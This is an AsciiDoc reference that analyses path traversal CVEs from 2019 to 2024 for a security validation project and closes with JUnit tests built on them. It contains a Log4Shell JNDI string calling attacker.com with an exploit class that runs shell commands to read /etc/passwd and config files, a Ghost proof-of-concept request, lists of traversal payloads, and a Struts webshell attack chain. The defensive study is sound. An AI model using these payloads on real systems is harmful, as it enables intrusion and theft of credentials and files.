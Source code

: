 = Path Traversal CVE Analysis
:toc: left
:toclevels: 3
:toc-title: Table of Contents
:sectnums:
:icons: font
:source-highlighter: highlight.js

xref:../README.adoc[← Back to Documentation Index]

== Overview

This document analyzes critical path traversal CVEs from 2019-2024, focusing on attack patterns and exploitation techniques relevant for security validation implementation.

== CVEs (2019-2024)

=== 2024 Vulnerabilities

==== link:https://nvd.nist.gov/vuln/detail/CVE-2024-38819[CVE-2024-38819] - Spring Framework
[cols="1,3"]
|===
|**CVSS Score** |7.5 (High) - CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
|**Affected Versions** |Spring Framework 5.3.0-5.3.40, 6.0.0-6.0.24, 6.1.0-6.1.13
|**Attack Vector** |Double URL encoding bypass
|**Impact** |Complete path restriction bypass
|**Exploitation** |`%252e%252e%252f` decoded twice becomes `../`
|**Fix** |Spring Framework 5.3.41, 6.0.25, 6.1.14
|===

**Technical Details:**
[source,java]
----
// Vulnerable pattern
String path = URLDecoder.decode(userInput, "UTF-8");
// After first decode: %2e%2e%2f
// After second decode: ../
----

**Sources**: link:https://spring.io/security/cve-2024-38819/[Spring Security Advisory], link:https://nvd.nist.gov/vuln/detail/CVE-2024-38819[NVD]

=== 2023 Vulnerabilities

==== link:https://nvd.nist.gov/vuln/detail/CVE-2023-50164[CVE-2023-50164] - Apache Struts 2
[cols="1,3"]
|===
|**CVSS Score** |9.8 (Critical)
|**Affected Versions** |2.0.0-2.3.37, 2.5.0-2.5.32, 6.0.0-6.3.0
|**Attack Vector** |File upload parameter manipulation
|**Impact** |Remote Code Execution via JSP shell upload
|**Exploitation** |Upload malicious JSP to web-accessible directory
|**Patch** |Struts 2.5.33, 6.3.0.2
|===

**Attack Chain:**

1. Identify vulnerable Struts application
2. Craft malicious file upload request
3. Use path traversal to control upload location
4. Upload JSP webshell
5. Access webshell for RCE

**Sources**: link:https://struts.apache.org/security/s2-066[Apache Struts Security Bulletin S2-066], link:https://nvd.nist.gov/vuln/detail/CVE-2023-50164[NVD]

==== link:https://nvd.nist.gov/vuln/detail/CVE-2023-32235[CVE-2023-32235] - Ghost CMS
[cols="1,3"]
|===
|**CVSS Score** |6.5 (Medium)
|**Affected Versions** |Ghost < 5.42.1
|**Attack Vector** |URL-encoded path traversal in asset handling
|**Impact** |Access to sensitive files (package.json, configs)
|**Exploitation** |`/assets/built%2F..%2F..%2F/package.json`
|**Fix** |Ghost 5.42.1
|===

**Proof of Concept:**
[source,http]
----
GET /assets/built%2F..%2F..%2F/package.json HTTP/1.1
Host: vulnerable-ghost.com
----

**Sources**: link:https://github.com/advisories/GHSA-r97q-ghch-82j9[Ghost Security Advisory], link:https://nvd.nist.gov/vuln/detail/CVE-2023-32235[NVD]

=== 2022 Vulnerabilities

==== link:https://nvd.nist.gov/vuln/detail/CVE-2022-23457[CVE-2022-23457] - OWASP ESAPI
[cols="1,3"]
|===
|**CVSS Score** |7.5 (High)
|**Affected Versions** |ESAPI < 2.3.0.0
|**Attack Vector** |Validator.getValidDirectoryPath() bypass
|**Impact** |Complete containment check bypass
|**Exploitation** |Absolute paths bypass parent directory checks
|**Fix** |ESAPI 2.3.0.0
|===

**Vulnerable Code Pattern:**
[source,java]
----
// Vulnerability: Accepts absolute paths
validator.getValidDirectoryPath("test", "/etc/passwd", baseDir, false);
// Returns /etc/passwd instead of throwing exception
----

**Sources**: link:https://github.com/ESAPI/esapi-java-legacy/security/advisories/GHSA-8m5h-hrqm-pxm2[OWASP ESAPI Security Advisory], link:https://nvd.nist.gov/vuln/detail/CVE-2022-23457[NVD]

=== 2021 Vulnerabilities

==== link:https://nvd.nist.gov/vuln/detail/CVE-2021-44228[CVE-2021-44228] - Log4Shell (Related Impact)
[cols="1,3"]
|===
|**CVSS Score** |10.0 (Critical)
|**Affected Versions** |Log4j 2.0-beta9 to 2.15.0
|**Attack Vector** |JNDI injection leading to RCE
|**Path Traversal Aspect** |Post-exploitation file system access
|**Impact** |Complete system compromise
|**Fix** |Log4j 2.17.0
|===

**Path Traversal in Exploitation Chain:**
[source,java]
----
// Step 1: JNDI injection in log message
"${jndi:ldap://attacker.com/Exploit}"

// Step 2: Malicious Exploit.java loaded via JNDI executes:
public class Exploit {
    static {
        try {
            // Direct command execution with path traversal
            String cmd = "cat /etc/passwd";
            Process p = new ProcessBuilder("/bin/sh", "-c", cmd)
                .redirectErrorStream(true).start();

            // Or accessing files via traversal
            Runtime.getRuntime().exec("cat ../../config/database.properties");
        } catch (Exception e) {
            // Silent fail
        }
    }
}
----

==== link:https://nvd.nist.gov/vuln/detail/CVE-2021-29425[CVE-2021-29425] - Apache Commons IO
[cols="1,3"]
|===
|**CVSS Score** |4.8 (Medium)
|**Affected Versions** |Commons IO < 2.7
|**Attack Vector** |Malformed paths like `//../foo`
|**Impact** |Limited parent directory access
|**Exploitation** |`FileNameUtils.normalize("//../foo")` returns `//../foo`
|**Fix** |Commons IO 2.7
|===

**Test Case Demonstrating Vulnerability:**
[source,java]
----
// Vulnerable behavior
String normalized = FileNameUtils.normalize("//../foo");
// Expected: null (invalid path)
// Actual: "//../foo" (unchanged, allows traversal)
----

=== 2020 Vulnerabilities

==== link:https://nvd.nist.gov/vuln/detail/CVE-2020-8908[CVE-2020-8908] - Google Guava
[cols="1,3"]
|===
|**CVSS Score** |3.3 (Low)
|**Affected Versions** |All Guava versions
|**Attack Vector** |World-readable temp directory permissions
|**Impact** |Information disclosure in multi-user systems
|**Exploitation** |Other users can read temp files
|**Fix** |Method deprecated, use Java NIO
|===

**Vulnerable Pattern:**
[source,java]
----
// Creates directory with permissions 777 on Unix
File tempDir = Files.createTempDir();
// Other users can access: /tmp/guava-user-12345/
----

=== 2019 Vulnerabilities

==== link:https://nvd.nist.gov/vuln/detail/CVE-2019-11358[CVE-2019-11358] - jQuery (Path Traversal via Prototype Pollution)
[cols="1,3"]
|===
|**CVSS Score** |6.1 (Medium)
|**Affected Versions** |jQuery < 3.4.0
|**Attack Vector** |Prototype pollution leading to path manipulation
|**Impact** |Client-side path traversal
|**Fix** |jQuery 3.4.0
|===


== Attack Pattern Evolution

=== Traditional Patterns (Pre-2020)
----
../../../etc/passwd
..\..\windows\system32\config\sam
../../../../proc/self/environ
----

=== Modern Patterns (2020-2024)
----
// Double encoding
%252e%252e%252f%252e%252e%252f

// Unicode variants
\u002e\u002e\u002f

// Mixed encoding
..%c0%af..%c0%af

// Null byte injection
../../../../etc/passwd%00.jpg

// Case variation (Windows)
..\\..\\/windows//system32

// URL + HTML encoding
%26%2346%3b%26%2346%3b%26%2347%3b
----

=== Emerging Patterns (2024+)

* Cloud API traversal patterns
* GraphQL query manipulation
* WebSocket path injection
* HTTP/2 and HTTP/3 specific patterns
* REST API path manipulation


== Test Cases from CVEs

[source,java]
----
@Test
public void testCVE_2021_29425_Pattern() {
    // Apache Commons IO vulnerability pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("//../sensitive/file"));
}

@Test
public void testCVE_2023_32235_Encoding() {
    // Ghost CMS URL encoding pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("assets/built%2F..%2F..%2F/config"));
}

@Test
public void testCVE_2023_50164_FileUpload() {
    // Apache Struts upload traversal
    String filename = "../../webapps/shell.jsp";
    assertThrows(SecurityException.class, () -> 
        validateUploadPath(filename));
}

@Test
public void testHttpHeaderInjection() {
    // HTTP header injection pattern
    String header = "X-Original-URL: /../../admin";
    assertThrows(SecurityException.class, () -> 
        validateHttpHeader(header));
}

@Test
public void testDoubleEncoding() {
    // Spring Framework double encoding
    String input = "%252e%252e%252f%252e%252e%252f";
    assertThrows(SecurityException.class, () -> 
        validateAfterDecoding(input));
}
----


== References

=== Vulnerability Databases

* link:https://nvd.nist.gov/[National Vulnerability Database (NVD)]
* link:https://cve.mitre.org/[MITRE CVE Database]
* link:https://www.cisa.gov/known-exploited-vulnerabilities-catalog[CISA Known Exploited Vulnerabilities Catalog]
* link:https://snyk.io/vuln/[Snyk Vulnerability Database]
* link:https://github.com/advisories[GitHub Security Advisories]
* link:https://www.cvedetails.com/[CVE Details]

=== Security Organizations

* link:https://owasp.org/[OWASP - Open Web Application Security Project]
* link:https://cwe.mitre.org/data/definitions/22.html[CWE-22: Path Traversal]
* link:https://attack.mitre.org/[MITRE ATT&CK Framework]

=== Vendor Security Advisories

* link:https://commons.apache.org/security.html[Apache Security]
* link:https://spring.io/security[Spring Security Advisories]
* link:https://github.com/google/guava/wiki/SecurityAdvisories[Google Guava Security]
* link:https://www.atlassian.com/trust/security/advisories[Atlassian Security Advisories]
* link:https://helpx.adobe.com/security.html[Adobe Security Bulletins]

=== Research and Documentation

* link:https://portswigger.net/web-security/file-path-traversal[PortSwigger Web Security Academy]
* link:https://www.sans.org/top25-software-errors/[SANS Top 25 Software Errors]
* link:https://research.checkpoint.com/[Check Point Research]

